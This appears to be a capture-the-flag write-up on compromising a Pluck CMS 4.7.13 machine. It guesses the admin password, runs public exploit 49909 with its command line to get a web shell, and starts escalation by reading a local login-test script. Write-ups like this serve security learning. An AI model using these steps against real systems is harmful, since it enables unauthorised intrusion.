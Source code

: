 ```
Pluck CMS 4.7.3 - Cross-Site Request Forgery (Add Page)                           | php/webapps/40566.py
Pluck CMS 4.7.3 - Multiple Vulnerabilities                                        | php/webapps/38002.txt
Pluck v4.7.18 - Remote Code Execution (RCE)                                       | php/webapps/51592.py
pluck v4.7.18 - Stored Cross-Site Scripting (XSS)                                 | php/webapps/51420.txt
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

We have a vulnerability -  RCE and Arbitrary File Upload. But authenticated so we will have to find a way to log in

Actually with a simple brute force I guessed the password - it's `password`

Now we can utilize our exploit - copy it to our working directory

```
$ searchsploit -m 49909 
```

After we analyze the code we see it takes 4 parameters
```
'''
User Input:
'''
target_ip = sys.argv[1]
target_port = sys.argv[2]
password = sys.argv[3]
pluckcmspath = sys.argv[4]
```

So our command looks like this

```
$ python3 49909.py $IP 80 "password" "/app/pluck-4.7.13"
```

After we visit a link on the website we get a beatiful shell - I like it tbh

### Escalation pt.1 - lucien

In `/opt` we have a file called `test.py`
```
$ cat test.py 
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "[REDACTED]"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)
```